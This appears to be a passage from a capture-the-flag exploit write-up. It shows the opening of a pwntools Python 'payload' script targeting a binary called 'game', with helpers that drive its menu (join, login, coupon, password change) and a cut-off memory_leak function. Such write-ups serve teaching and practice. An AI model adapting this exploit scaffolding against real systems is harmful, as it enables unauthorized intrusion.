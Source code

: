 ## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from time import sleep
from argparse import ArgumentParser
import sys
import pyte

BINARY = "game"
LIBRARY = "libc.so.6"
CONTAINER = "7e8bfb970414"

def join(s, id, pw, email, age):
    s.sendline(b"1")
    s.sendlineafter(b"Id:\r\n", id)
    s.sendlineafter(b"Pw:\r\n", pw)
    s.sendlineafter(b"Email:\r\n", email)
    s.sendlineafter(b"Age:\r\n", str(age).encode())
    return s.recvuntil(b"Choice : \r\n")

def login(s, id, pw):
    s.sendline(b"2")
    s.sendlineafter(b"id:\r\n", id)
    s.sendlineafter(b"pw:\r\n", pw)
    return s.recvuntil(b"Choice : \r\n")

def quit_(s):
    s.sendline(b"3")
    return s.recvuntil(b"quit\r\n")

def logout(s):
    return s.sendlinethen(b"Choice : \r\n", b"1")

def play_game(s):
    s.sendline(b"2")

def apply_coupon(s, coupon):
    s.sendline(b"3")
    s.sendlineafter(b"coupon : \r\n", coupon)
    r = s.recvuntil(b"Choice : \r\n")
    if r.find(b"successfully") > -1:
        log.success(f"coupon use success")
        return True
    else:
        log.failure(f"something wrong with {coupon}")
        return False

def usage_history(s):
    s.sendline(b"4")
    return s.recvuntil(b"Choice : \r\n")

def change_pw(s, pw):
    s.sendline(b"5")
    s.sendlineafter(b"PW? : \r\n", b"y")
    s.sendlineafter(b"PW : \r\n", pw)
    return s.recvuntil(b"Choice : \r\n")

def print_info(s):
    s.sendline(b"6")
    return s.recvuntil(b"Choice : \r\n")

def memory_leak(s):
```